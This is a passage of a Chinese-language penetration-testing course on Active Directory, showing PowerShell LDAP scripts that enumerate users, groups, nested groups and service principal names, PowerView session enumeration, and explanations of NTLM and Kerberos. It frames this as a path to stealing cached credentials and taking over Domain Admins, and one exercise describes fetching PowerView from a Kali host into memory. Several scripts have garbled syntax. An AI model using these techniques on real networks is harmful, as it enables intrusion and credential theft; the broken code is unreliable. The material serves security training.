PS C:\Users\offsec.CORP> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

Forest           : corp.com

DomainControllers : {DC01.corp.com}

Children          : {}

DomainMode        : Unknown

DomainModeLevel   : 7

Parent            :

PdcRoleOwner      : DC01.corp.com

RidRoleOwner      : DC01.corp.com

InfrastructureRoleOwner : DC01.corp.com

Name              : corp.com
```

List 666 - 来自 `System.DirectoryServices.ActiveDirectory` 命名空间的 `Domain` 类

根据此输出，域名称是 "corp.com"（来自 `Name` 属性），主域控制器名称是 "DC01.corp.com"（来自 `PdcRoleOwner`$^{618}$ 属性）。

我们可以使用这些信息以编程方式构建 LDAP 提供程序路径。让我们在一个简单的 PowerShell 脚本中包含 `Name` 和 `PdcRoleOwner` 属性来构建提供程序路径：

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP:///"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$(($domainObj.Name.Replace('.',' ,DC=')))"

$SearchString += $DistinguishedName

$SearchString
```

List 667 - 组装 LDAP 提供程序路径

在这个脚本中，`$domainObj` 将存储整个域对象，`$PDC` 将存储 PDC 的 Name，`$SearchString` 将构建用于输出的提供程序路径。请注意，DistinguishedName 将由

616 (Microsoft, 2018), https://msdn.microsoft.com/en-us/library/system.directoryservices.activedirectory.domain(v=vs.110).aspx
617 (Microsoft, 2018), https://msdn.microsoft.com/en-us/library/system.directoryservices.activedirectory.domain.getcurrentdomain(v=vs.110).aspx
618 (Microsoft, 2018), https://msdn.microsoft.com/en-us/library/system.directoryservices.activedirectory.domain.pdcroleowner(v=vs.110).aspx

我们的域名 (`corp.com`) 分解为单独的域组件 (DC) 组成，使得 DistinguishedName 变为 "DC=corp,DC=com"，如脚本输出所示：

```
LDAP://DC01.corp.com/DC=corp,DC=com
```

*List 668 - 完整的 LDAP 提供程序路径*

这是针对域控制器执行 LDAP 查询所需的完整 LDAP 提供程序路径。

我们现在可以使用 LDAP 提供程序路径来实例化 `DirectorySearcher` 类。要使用 `DirectorySearcher` 类，我们必须指定一个 `SearchRoot`，它是 Active Directory 层级中搜索开始的节点。$^{619}$

搜索根采用从 `DirectoryEntry`$^{620}$ 类实例化的对象的形式。当没有向构造函数传递参数时，`SearchRoot` 将表明每个搜索都应返回整个 Active Directory 的结果。List 669 中的代码显示了脚本中完成此操作的相关部分。

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=\${$domainObj.Name.Replace('.',', ' ,DC=')}\"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain
```

*List 669 - 创建 DirectorySearcher*

准备好我们的 `DirectorySearcher` 对象后，我们可以执行搜索。然而，如果不使用任何过滤器，我们将收到整个域中的所有对象。

设置过滤器的一种方法是通过 `samAccountType` 属性，$^{621}$ 这是所有用户、计算机和组对象都具有的属性。请参考链接的引用$^{622}$ 以获取更多示例，但在我们的情况下，我们可以向过滤器属性提供 0x30000000（十进制 805306368）来枚举域中的所有用户，如 List 670 所示：

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name
```


$^{619}$ (Microsoft, 2018), https://msdn.microsoft.com/en-us/library/49s2h23\{(v=vs.110).aspx$
$^{620}$ (Microsoft, 2018), https://msdn.microsoft.com/en-us/library/system.directoryservices.directoryentry(v=vs.110).aspx$
$^{621}$ (Microsoft, 2018), https://msdn.microsoft.com/en-us/library/ms679637(v=vs.85).aspx$
$^{622}$ (Microsoft, 2018), https://msdn.microsoft.com/en-us/library/ms679637(v=vs.85).aspx$

```powershell
$SearchString = "LDAP:///"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.',' ,DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter = "samAccountType=805306368"
$Searcher.FindAll()
```

## 列表 670 - 用于搜索用户的代码片段

我们通过在 `$Searcher` 对象的 `filter` 属性中添加 `samAccountType` 过滤器，然后调用 `FindAll` 方法来执行搜索并找出所有符合配置过滤器的结果。

运行此脚本时，它应该枚举域中的所有用户：

| 路径 | 属性 |
| :--- | :--- |
| LDAP:///CN=Administrator, CN= Users, DC=corp, DC=com | {admincount... |
| LDAP:///CN=Guest, CN= Users, DC=corp, DC=com | {iscritical... |
| LDAP:///CN=Default Account, CN= Users, DC=corp, DC=com | {iscritical... |
| LDAP:///CN=krbtgt, CN= Users, DC=corp, DC=com | {msds... |
| LDAP:///CN=Offsec, OU=Admins, OU=CorpUsers, DC=corp, DC=com | {givenname... |
| LDAP:///CN=Jeff_Admins, OU=CorpUsers, DC=corp, DC=com | {givenname... |
| LDAP:///CN=Adam, OU=Normal, OU=CorpUsers, DC=corp, DC=com | {givenname... |
| LDAP:///CN=iis_service, OU=ServiceAccounts, OU=CorpUsers, DC=corp, DC=com | {givenname... |
| LDAP:///CN=sql_service, OU=ServiceAccounts, OU=CorpUsers, DC=corp, DC=com | {givenname... |

## 列表 671 - 域中的用户

这是一个很好的信息，但我们应该对其进行一些整理。由于用户对象的属性存储在 `Properties` 字段中，我们可以实现一个双重循环，将每个属性打印在单独的一行上。

完整的 PowerShell 脚本将收集所有用户及其属性：

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP:///"
$SearchString += $PDC + "/"
```

[^623]: [Microsoft, 2018](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.directorysearcher.findall?view=netframework-4.8).

```powershell
$DistinguishedName = "DC=$($domainObj.Name.Replace('.',' ,DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="samAccountType=805306368"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
    Write-Host "--------------------------"
```


**列表 672 - 枚举所有用户的 PowerShell 脚本**

检索到的信息可能非常令人不知所措，因为用户对象有许多属性。下面的列表显示了 `Jeff_Admin` 用户属性的部分视图。

| 属性 | 值 |
| :--- | :--- |
| givenname | {Jeff_Admin} |
| samaccountname | {jeff_admin} |
| cn | {Jeff_Admin} |
| pwdlastset | {13162329100859206} |
| whencreated | {05/02/2018 18.33.10} |
| badpwdcount | {0} |
| displayname | {Jeff_Admin} |
| lastlogon | {0} |
| samaccounttype | {805306368} |
| countrycode | {0} |
| objectguid | {130 114 89 75 220 233 3 76 170 206 193 232 122 112 176 32} |
| usnchanged | {12938} |
| whenchanged | {05/02/2018 19.20.52} |
| name | {Jeff_Admin} |
| objectsid | {1 5 0 0 0 0 0 0 5 21 0 0 0 195 240 137 95 239 58 38 166 116 233} |
| logoncount | {0} |
| badpasswordtime | {0} |
| accountexpires | {9223372036854775807} |
| primarygroupid | {513} |
| objectcategory | {CN=Person,CN=Schema,CN=Configuration,DC=corp,DC=com} |
| userprincipalname | {jeff_admin@corp.com} |
| useraccountcontrol | {66048} |
| admincount | {1} |
| dscoreregulationdata | {05/02/2018 19.20.52, 01/01/1601 00.00.00} |
| distinguishedname | {CN=Jeff_Admin,OU=Admins,OU=CorpUsers,DC=corp,DC=com} |
| objectclass | {top, person, organizationalPerson, user} |
| usncreated | {12879} |
| memberof | {CN=Domain Admins, CN= Users, DC=corp, DC=com} |
| adspath | {LDAP://CN=Jeff_Admin, OU=Admins, OU=CorpUsers, DC=corp, DC=com} |
| ... | ... |

**列表 673 - 所有用户及相关属性**

根据上述输出，`Jeff_Admin` 账户是域管理员组（Domain Admins）的成员。使用我们的 `DirectorySearcher` 对象，我们可以使用过滤器来定位特定组（如域管理员）的成员，或者使用过滤器专门搜索 `Jeff_Admin` 用户。

在 `filter` 属性中，我们可以设置我们想要的对象类型的任何属性。例如，我们可以使用 `name` 属性为 `Jeff_Admin` 用户创建过滤器，如下所示：

```powershell
$Searcher.filter="name=Jeff\_Admin"
```

**列表 674 - 过滤结果仅保留 Jeff_Admin**

虽然这个脚本乍一看可能令人生畏，但它非常灵活，可以修改以协助其他 AD 枚举任务。

## 21.2.2.1 练习

- 1. 修改 PowerShell 脚本，使其仅返回域管理员组的成员。
- 2. 修改 PowerShell 脚本，使其返回域中的所有计算机。
- 3. 添加一个过滤器，使其仅返回运行 Windows 10 的计算机。

## 21.2.3 解决嵌套组

接下来，让我们使用新开发的 PowerShell 脚本来解析我们在 `net.exe` 中遇到的嵌套组。

第一项任务是定位域中的所有组并打印它们的名称。为此，我们将创建一个过滤器，提取所有 `objectClass` 设置为 `"Group"` 的记录，并且我们将仅打印每个组的 `name` 属性，而不是所有属性。

[^624]: [Microsoft, 2018](https://docs.microsoft.com/en-us/windows/win32/ad/object-class-and-object-category).

列表 675 显示了修改后的脚本，并高亮显示了更改部分。

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain() 
$PDC = ($domainObj.PdcRoleOwner).Name 
$SearchString = "LDAP://" 
$SearchString += $PDC + "/" 
$DistinguishedName = "DC=$($domainObj.Name.Replace('.',' ,DC='))" 
$SearchString += $DistinguishedName 
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString) 
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain  
$Searcher.filter="(objectClass=Group)"  
$Result = $Searcher.FindAll()  
Foreach($obj in $Result)  
{  
$obj.Properties.name  
}
```

**列表 675 - 用于枚举所有域组的修改版 PowerShell 脚本**

执行时，脚本输出域中所有组的列表。列表 676 中显示的截断输出揭示了组 `Secret_Group`、`Nested_Group` 和 `Another_Nested_Group`：

```text
...  
Key Admins  
Enterprise Key Admins  
DnsAdmins  
DnsUpdateProxy  
Secret_Group  
Nested_Group  
Another_Nested_Group
```

**列表 676 - 枚举域组的截断输出**

现在，让我们尝试通过为 `name` 属性设置适当的过滤器来列出 `Secret_Group` 的成员。

此外，我们将只显示 `member` 属性以获取组成员。实现此功能的修改后的 PowerShell 脚本显示在列表 677 中，并高亮显示了更改部分：

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()  
$PDC = ($domainObj.PdcRoleOwner).Name  
$SearchString = "LDAP://"  
$SearchString += $PDC + "/"  
$DistinguishedName = "DC=$($domainObj.Name.Replace('.',' ,DC='))"  
$SearchString += $DistinguishedName  
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)  
$objDomain = New-Object System.DirectoryServices.DirectoryEntry  
$Searcher.SearchRoot = $objDomain  
$Searcher.filter="(name=Secret_Group)"  
$Result = $Searcher.FindAll()  
Foreach($obj in $Result)
{
    $obj.Properties.member
}
```

**列表 677 - 用于枚举组成员的 PowerShell 脚本**

修改后的脚本将转储 DistinguishedName 组成员的名称：

```text
CN=Nested_Group,OU=CorpGroups,DC=corp,DC=com
```


### 列表 678 - 组 Secret_Group 的成员

根据此输出，`Nested_Group` 是 `Secret_Group` 的成员。为了枚举其成员，我们必须重复上述步骤以列出 `Nested_Group` 的成员。我们可以通过替换过滤器条件中的组名来实现：

```powershell
...
$Searcher.SearchRoot = $objDomain
$Searcher.filter="(name=Nested_Group)"
...
```

### 列表 679 - 获取 Nested_Group 的成员

此更新脚本生成列表 680 中显示的输出：

```text
CN=Another_Nested_Group,OU=CorpGroups,DC=corp,DC=com
```

### 列表 680 - 组 Nested_Group 的成员

这表明 `Another_Nested_Group` 是 `Nested_Group` 的唯一成员。我们需要再次修改并运行脚本，替换过滤器条件中的组名。

```powershell
...
$Searcher.SearchRoot = $objDomain
$Searcher.filter="(name=Another_Nested_Group)"
...
```

### 列表 681 - 获取 Another_Nested_Group 的成员

下一次搜索的输出显示在列表 682 中。

```text
CN=Adam,OU=Normal,OU=CorpUsers,DC=corp,DC=com
```

### 列表 682 - 组 Another_Nested_Group 的成员

最后，我们发现域用户 `Adam` 是 `Another_Nested_Group` 的唯一成员。这结束了所需枚举以解开嵌套组，并展示了如何利用 PowerShell 和 LDAP 来执行这种类型的查找。

## 21.2.3.1 练习

- 1. 重复枚举以揭示 `Secret_Group`、`Nested_Group` 和 `Another_Nested_Group` 之间的关系。
- 2. 本节中展示的脚本要求我们在每次迭代时更改组名。调整该脚本，以便在事先不知道组名的情况下，通过编程方式解开嵌套组。

## 21.2.4 当前已登录用户

至此，我们可以列出用户及其组成员关系，并轻松定位管理员用户。

作为下一步，我们希望找到属于高价值组的已登录用户，因为他们的凭据会缓存在内存中，我们可以窃取这些凭据并用于身份验证。

如果我们成功攻破了 *Domain Admins*（域管理员）中的一个成员，最终可能接管整个域（我们将在后续章节中详细说明）。或者，如果我们无法立即攻破 *Domain Admins* 成员，则必须攻破其他账户或机器，最终获得该级别的访问权限。

例如，图 307 显示 `Bob` 已登录到 `CLIENT512`，并且是所有工作站的本地管理员。`Alice` 已登录到 `CLIENT621`，并且是所有服务器的本地管理员。最后，`Jeff` 已登录到 `SERVER21`，并且是 `Domain Admins` 组的成员。


如果我们成功攻破了 `Bob` 的账户（例如通过客户端侧攻击），我们可以从 `CLIENT512` 进行横向移动，以攻击 `CLIENT621` 上的 `Alice`。由此延伸，我们可能能够再次横向移动以攻击 `SERVER21` 上的 `Jeff`，从而获得域访问权限。

在此类场景中，我们必须定制我们的枚举策略，不仅考虑 *Domain Admins*，还要考虑潜在的“链式妥协”路径，包括寻找所谓的 *衍生本地管理员*。<sup>625</sup>

为此，我们需要一份登录到目标的用户的列表。我们可以直接与目标交互以直接检测此信息，或者我们可以跟踪用户在域控制器或文件服务器上的活动登录会话。

两个最可靠的 Windows 函数可以帮助我们实现这些目标，分别是 `NetWkstaUserEnum`<sup>626</sup> 和 `NetSessionEnum`<sup>627</sup> API。前者需要管理员权限，并返回登录到目标工作站的用户的列表；后者可以由普通域用户使用，并返回服务器上（如文件服务器或域控制器）的活动用户会话列表。

在评估过程中，在攻陷域内机器后，我们应该枚举域中的每台计算机，然后对获取的目标列表使用 *NetWkstaUserEnum*。请记住，只有当我们在那个目标上拥有本地管理员权限时，此 API 才会列出登录到该目标的用户的列表。

或者，我们可以将精力集中在发现网络中的域控制器和任何潜在的文件服务器（基于服务器主机名或开放端口）上，并对这些服务器使用 *NetSessionEnum* 以枚举所有活动用户会话。

此过程将为我们提供一个良好的“利用地图”，以便遵循以攻陷域管理员账户。但是，请记住，使用这两个 API 获得的结果将根据当前登录用户的权限和域环境的配置而有所不同。

作为一个非常基本的示例，在本节中，我们将使用 *NetWkstaUserEnum* API 来枚举 Windows 10 客户端机器上的本地用户，并使用 *NetSessionEnum* 来枚举域控制器上的用户活动会话。

从 PowerShell 中调用操作系统 API 并不完全直接。幸运的是，其他研究人员已经提出了一种简化该过程并帮助避免终端安全检测的技术。最常见的解决方案是使用 *PowerView*<sup>528</sup>，这是一个 PowerShell 脚本，是 *PowerShell Empire* 框架的一部分。

`PowerView` 脚本已经存储在 Windows 10 客户端的 `C:\Tools\active_directory` 目录中。要使用它，我们必须首先导入它：

```
PS C:\Tools\active_directory> Import-Module .\PowerView.ps1
```

Listing 683 - 安装并导入 PowerView

`PowerView` 脚本相当大，但我们只使用 `Get-NetLoggedon` 和 `Get-NetSession` 函数，它们分别调用 `NetWkstaUserEnum` 和 `NetSessionEnum`。

首先，我们将使用 `Get-NetLoggedon` 枚举已登录用户，并使用 `-ComputerName` 选项指定目标工作站或服务器。由于在这种情况下我们针对的是 Windows 10 客户端，我们将使用 `-ComputerName client251`。

```
PS C:\Tools\active_directory> Get-NetLoggedon -ComputerName client251
wkuu1_username | wkuu1_logon_domain | wkuu1_oth_domains | wkuu1_logon_server
--------------- | ------------------ | ----------------- | --------------------
offsec         | corp               |                   | DC01
offsec         | corp               |                   | DC01
CLIENT251$     | corp               |                   |
CLIENT251$     | corp               |                   |
CLIENT251$     | corp               |                   |
CLIENT251$     | corp               |                   |
CLIENT251$     | corp               |                   |
CLIENT251$     | corp               |                   |
CLIENT251$     | corp               |                   |
```

Listing 684 · 使用 Get-NetLoggedOn 进行用户枚举

输出结果揭示了预期的 `offsec` 用户账户。

接下来，让我们尝试获取域控制器 `DC01` 上的活动会话。请记住，这些会话是用户在登录时针对域控制器执行的，但源自于特定的工作站或服务器，而我们要枚举的正是这些来源。

我们可以使用 `-ComputerName` 标志以类似的方式调用 `Get-NetSession` 函数。回想一下，此函数调用 Win32 API `NetSessionEnum`，它将返回所有活动会话，在我们的情况下是来自域控制器的会话。

在 Listing 685 中，API 针对域控制器 `DC01` 进行调用。


`PS C:\Tools\active_directory> Get-NetSession -ComputerName dc01`

sesi10_cname       sesi10_username   sesi10_time   sesi10_idle_time

------------------ ----------------- ------------- ----------------

\\192.168.1.111    CLIENT251$          8             8

\[::1]             DC01$               6             6

\\192.168.1.111    offsec              0             0

Listing 685 · 使用 `Get-NetSession` 枚举活动用户会话

正如预期，`Offsec` 用户在域控制器上有一个来自 192.168.1.111（Windows 10 客户端）的活动会话，这是由于活跃登录所致。我们从两个 API 获得的信息结果是一样的，因为我们只针对一台机器，而这台机器恰好也是我们执行脚本的机器。然而，在真实的 Active Directory 基础设施中，使用每个 API 获取的信息可能会有所不同，并且肯定会更有用。

现在，既然我们可以枚举组成员资格并确定用户当前登录到哪些机器，我们就具备了开始攻陷用户账户所需的基本技能，最终目标是获得域管理员权限。

### 21.2.4.1 练习

- 1. 下载并使用 `PowerView`，在 `Offsec` 账户的上下文中对学生虚拟机执行相同的枚举。
- 2. 使用 `Jeff_Admin` 账户登录学生虚拟机，并使用 `Jeff_Admin` 账户对域控制器执行远程桌面登录。接下来，在学生虚拟机上执行 `Get-NetLoggedOn` 函数，在 `Jeff_Admin` 账户的上下文中发现域控制器上的已登录用户。
- 3. 通过使用 `System.Net.WebClient` 类中的 `DownloadString` 方法重复枚举，以便从您的 Kali 系统加载 `PowerView` 并在内存中执行它，而不将其保存到硬盘。

#### 21.2.5 通过服务主体名称进行枚举

到目前为止，我们一直在枚举域用户，以寻找属于高价值组的已登录账户。攻击域用户账户的替代方案是攻击所谓的*服务账户*[^629]，它们也可能是高价值组的成员。

当应用程序执行时，它必须始终在操作系统用户的上下文中执行。如果用户启动应用程序，则定义该上下文的是该用户账户。然而，由系统本身启动的服务使用的是基于*服务账户*的上下文。

换句话说，独立的应用程序可以使用一组预定义的服务账户：*LocalSystem*[^630]、*LocalService*[^631] 和 *NetworkService*[^632]。对于更复杂的应用程序，可以使用域用户账户来提供所需的上下文，同时仍能访问域内的资源。

当 Exchange、SQL 或 Internet Information Services (IIS) 等应用程序集成到 Active Directory 时，会使用一个称为*服务主体名称*（SPN）[^633]的唯一服务实例标识符，将特定服务器上的服务与 Active Directory 中的服务账户关联起来。

> *托管服务账户*[^634] *随* *Windows Server 2008 R2* *引入，专为需要与 Active Directory 进行更紧密集成的复杂应用程序设计。像 SQL 和 Microsoft Exchange*[^635] *这样的大型应用程序在运行时通常需要服务器冗余以保证可用性，但* *托管服务账户无法支持这一点。为了解决这个问题，* *组托管服务账户*[^636] *随* *Windows Server 2012* *引入，但这要求域控制器运行* *Windows Server 2012* *或更高版本。因此，许多组织仍然依赖基本服务账户。*

通过枚举域中所有注册的 SPN，我们可以获取运行在与目标 Active Directory 集成的服务器上的应用程序的 IP 地址和端口号，从而减少广泛端口扫描的需求。

由于信息是在 Active Directory 中注册和存储的，因此它存在于域控制器上。为了获取数据，我们将再次查询域控制器，以搜索特定的服务主体名称。

[^629]: (Microsoft, 2017). https://msdn.microsoft.com/en-us/library/windows/desktop/ms686005(v=vs.85).aspx
[^630]: (Microsoft, 2018). https://msdn.microsoft.com/en-us/library/windows/desktop/ms684190(v=vs.85).aspx
[^631]: (Microsoft, 2018). https://msdn.microsoft.com/en-us/library/windows/desktop/ms684188(v=vs.85).aspx
[^632]: (Microsoft, 2018). https://msdn.microsoft.com/en-us/library/windows/desktop/ms684272(v=vs.85).aspx
[^633]: (Microsoft, 2017). https://msdn.microsoft.com/en-us/library/ms677949(v=vs.85).aspx
[^634]: (Microsoft, 2009). https://blogs.technet.microsoft.com/askds/2009/09/10/managed-service-accounts-understanding-implementing-best-practices-and-troubleshooting/
[^635]: (Wikipedia, 2018). https://en.wikipedia.org/wiki/Microsoft_Exchange_Server
[^636]: (Microsoft, 2012). https://blogs.technet.microsoft.com/askds/2012/12/16/windows-server-2012-group-managed-service-accounts/

> 虽然微软没有记录可搜索 SPN 的列表，但在线上有大量可用的列表。[^637]

例如，让我们更新我们的 PowerShell 枚举脚本，以过滤 `serviceprincipalname` 属性中是否包含字符串 `*http*`，这表明存在已注册的 Web 服务器。

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = $($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ', ')), DC=corp, DC=com"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="serviceprincipalName=*http*"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)

{

    Foreach($prop in $obj.Properties)

    {

        $prop

    }

}
```


# 列表 686 - 用于检测已注册服务主体名称的 PowerShell 脚本

此搜索返回了若干结果，尽管可以进一步过滤，但我们很容易发现相关信息：

| 名称 | 值 |
| ----- | ----- |
| givenname | {iis_service} |
| samaccountname | {iis_service} |
| cn | {iis_service} |
| pwdlastset | {131623309820953450} |
| whencreated | {05/02/2018 19.03.02} |
| badpwdcount | {0} |
| displayname | {iis_service} |
| lastlogon | {131624786130434963} |
| samaccounttype | {805306368} |
| countrycode | {0} |
| objectguid | {201 74 156 103 125 89 254 67 146 40 244 7 212 176 32 11} |
| usnchanged | {28741} |
| whenchanged | {07/02/2018 12.08.56} |
| name | {iis_service} |
| objectsid | {1 5 0 0 0 0 0 5 21 0 0 0 202 203 185 181 144 182 205 192 58 2} |
| logoncount | {3} |
| badpasswordtime | {0} |
| accountexpires | {9223372036854775807} |
| primarygroupid | {513} |
| objectcategory | {CN=Person,CN=Schema,CN=Configuration,DC=corp,DC=com} |
| userprincipalname | {iis_service@corp.com} |
| useraccountcontrol | {590336} |
| dscorepropagationdata | {01/01/1601 00.00.00} |
| serviceprincipalname | {HTTP/CorpWebServer.corp.com} |
| distinguishedname | {CN=iis_service,OU=ServiceAccounts,OU=CorpUsers,DC=corp,DC=com} |
| objectclass | {top, person, organizationalPerson, user} |
| usncreated | {12919} |
| lastlogontimestamp | {131624773644330799} |
| adspath | {LDAP://CN=iis_service,OU=ServiceAccounts,OU=CorpUsers,DC=corp,DC=com} |

# 列表 687 - 服务主体名称搜索的输出

根据输出，其中一个属性名 `samaccountname` 被设置为 `iis_service`，表明存在 Web 服务器，并且 `serviceprincipalname` 被设置为 `HTTP/CorpWebServer.corp.com`。所有这一切似乎都表明存在一个 Web 服务器。

让我们尝试使用 `nslookup` 解析 `CorpWebServer.corp.com`。

```powershell
PS C:\Users\offsec.CORP> nslookup CorpWebServer.corp.com

Server: Unknown

Address: 192.168.1.110

Name: corpwebserver.corp.com

Address: 192.168.1.110
```


*列表 688 - serviceprincipalname 条目的 Nslookup*

根据结果，可以清楚地看到主机名解析为一个内部 IP 地址，即域控制器的 IP 地址。

如果我们浏览此 IP 地址，我们会发现一个默认的 IIS Web 服务器，如图 308 所示。


虽然域控制器通常不会托管 Web 服务器，但学生实验环境中充满了惊喜。

尽管枚举服务主体名称并不能揭示 Web 服务器的软件或版本，但它会缩小搜索范围，并允许进行手动检测或范围紧密限定的端口扫描。

## 21.2.5.2 练习

1. 重复本节的步骤以发现 IIS 服务器的服务主体名称。
2. 发现域中任何其他已注册的服务主体名称。
3. 更新脚本，使结果包括注册了服务主体名称的任何服务器的 IP 地址。
4. 使用 `Get-SPN` 脚本<sup>1716</sup>重新发现相同的服务主体名称。

<sup>1716</sup>（Scott Sutherland，2013），https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/Get-SPN.ps1

## 21.3 Active Directory 身份验证

既然我们已经枚举了用户账户、组成员身份和已注册的 SPN，让我们尝试使用这些信息来攻陷 Active Directory。

为了做到这一点，我们首先必须讨论 Active Directory 身份验证的细节。

Active Directory 支持多种身份验证协议和技术，并实现对 Windows 计算机以及运行 Linux 和 macOS 计算机的身份验证。

> Active Directory 支持几种较旧的协议，包括 WDigest。<sup>639</sup> 虽然这些对于像 Windows 7 或 Windows Server 2008 R2 这样的较旧的操作系统可能有用，但我们在本节中只关注更现代的身份验证协议。

Active Directory 使用 Kerberos<sup>640</sup> 或 NTLM 身份验证<sup>641</sup> 协议进行大多数身份验证尝试。我们将首先讨论更简单的 NTLM 协议。

### 21.3.1 NTLM 身份验证

当客户端通过 IP 地址（而不是通过主机名）向服务器进行身份验证时，<sup>642</sup> 或者如果用户尝试向未在 Active Directory 集成的 DNS 服务器上注册的主机名进行身份验证时，就会使用 NTLM 身份验证。同样，第三方应用程序也可能选择使用 NTLM 身份验证而不是 Kerberos 身份验证。

NTLM 身份验证协议由七个步骤组成，如图 309 所示，并将在下文详细解释。


*图 309：Active Directory 中 NTLM 身份验证的示意图*

在第一个身份验证步骤中，计算机从用户密码计算一个称为 *NTLM 哈希值* 的密码哈希。接下来，客户端计算机将用户名发送到服务器，服务器返回一个称为 *nonce 或 challenge* 的随机值。然后，客户端使用 NTLM 哈希值对 nonce 进行加密，此时称为 *响应*，并将其发送到服务器。

服务器将响应连同用户名和 nonce 一起转发到域控制器。然后由域控制器执行验证，因为它已经知道所有用户的 NTLM 哈希值。域控制器使用所提供用户名的 NTLM 哈希值对 challenge 本身进行加密，并将其与其从服务器接收到的响应进行比较。如果两者相等，则身份验证请求成功。

与其他任何哈希值一样，NTLM 不能逆转。然而，由于短密码即使在普通设备上也可能在几天内被破解，因此它被认为是一种“快速哈希”密码算法。<sup>643</sup>

> *通过使用像 Hashcat 这样的破解软件配合顶级图形处理器，每秒可以测试超过 6000 亿个 NTLM 哈希值。这意味着所有八位字符的密码可以在 2.5 小时内被测试，所有九位字符的密码可以在 11 天内被测试。*

<sup>643</sup>（Jeremi Gosney，2017），https://gist.github.com/epix0ep/ace60d99981be09544fdd35005051505

接下来我们将转向 Kerberos，它是 Active Directory 及相关服务的默认身份验证协议。

### 21.3.2 Kerberos 身份验证

Microsoft 使用的 Kerberos 身份验证协议是采用 MIT 创建的 Kerberos 版本 5 身份验证协议，并自 Windows Server 2003 起作为 Microsoft 的主要身份验证机制。虽然 NTLM 身份验证通过挑战和响应原则工作，但基于 Windows 的 Kerberos 身份验证使用票据系统。

从高层次来看，Active Directory 中 Kerberos 客户端对服务的身份验证涉及将域控制器用作密钥分发中心，或 KDC 的角色。<sup>644</sup> 此过程如图 310 所示。

<sup>644</sup>（Wikipedia，2017），https://en.wikipedia.org/wiki/Key_distribution_center


*图 310：Kerberos 身份验证示意图*


让我们详细回顾这一过程，以为进一步的讨论奠定基础。

例如，当用户登录其工作站时，会向域控制器发送一个请求，该控制器充当 KDC（密钥分发中心）并维护 *认证服务器*（Authentication Server）服务。这个*认证服务器请求*（或 *AS_REQ*）包含一个时间戳，该时间戳是使用由用户$^{645}$密码和用户名派生的哈希值进行加密的。

当域控制器收到请求时，它会查找与该特定用户关联的密码哈希，并尝试解密该时间戳。如果解密过程成功且该时间戳不是重复的（即潜在的*重放攻击*），则视为认证成功。

域控制器向客户端回复一个*认证服务器响应*（*AS_REP*），其中包含一个会话密钥（因为 Kerberos 是无状态的）和一个*票证授予票证*（*TGT*）。会话密钥是使用用户的密码哈希加密的，客户端可以对其进行解密并重新使用。TGT 包含有关用户的信息，包括组成员身份、域、时间戳、客户端 IP 地址以及会话密钥。

为了避免篡改，票证授予票证由仅 KDC 知晓的秘密密钥加密，因此客户端无法对其进行解密。一旦客户端接收到会话密钥和 TGT，KDC 就认为客户端认证已完成。默认情况下，TGT 的有效期为 10 小时，之后将发生续期。此续期过程不需要用户重新输入密码。

当用户希望访问域资源（如网络共享、Exchange 邮箱或具有已注册服务主体名称 [SPN] 的其他应用程序）时，必须再次联系 KDC。

这次，客户端构建一个*票证授予服务请求*（或 *TGS_REQ*）数据包，该数据包由当前用户和时间戳（使用会话密钥加密）、资源 SPN 以及加密的 TGT 组成。

接下来，KDC 上的票证授予服务接收 TGS_REQ，如果 SPN 存在于域中，则使用仅 KDC 知晓的秘密密钥解密 TGT。然后，从 TGT 中提取会话密钥，并用于解密请求中的用户名和时间戳。此时，KDC 执行多项检查：

- 1. TGT 必须具有有效的时间戳（未检测到重放，且请求未过期）。
- 2. TGS_REQ 中的用户名必须与 TGT 中的用户名匹配。
- 3. 客户端 IP 地址需要与 TGT IP 地址一致。

如果此验证过程成功，票证授予服务将向客户端响应一个*票证授予服务器响应*，即 *TGS_REP*。此数据包包含三个部分：

- 1. 已授予访问权限的 SPN。
- 2. 用于客户端和 SPN 之间的会话密钥。
- 3. 一个服务*票证*，包含用户名和组成员身份，以及新创建的会话密钥。

